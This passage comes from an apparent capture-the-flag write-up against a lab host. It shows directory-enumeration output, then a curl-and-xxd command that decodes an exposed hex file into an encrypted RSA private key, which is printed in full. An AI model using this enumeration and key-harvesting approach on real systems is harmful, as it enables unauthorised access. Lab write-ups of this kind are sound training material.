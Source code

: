 ```shell
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/cgi-bin/ (Status: 403)
/decode (Status: 200)
/decode.php (Status: 200)
/dev (Status: 301)
/encode (Status: 200)
/encode.php (Status: 200)
/index (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/04/12 15:30:56 Finished
===============================================================
```

## 2. Getting User
We have file listing at `http://10.10.10.79/dev`.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/2020-04-17-23-09-39.png)

At `http://10.10.10.79/dev/hype_key`, we can find hex characters.
![placeholder](https://media.githubusercontent.com/media/inar1/inar1.github.io/master/public/images/2020-04-18/2020-04-17-23-07-19.png)

We can decode the hex characters with the following command.<br>
It is an RSA private key.
```shell
root@kali:~# curl http://10.10.10.79/dev/hype_key -s | xxd -r -p
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```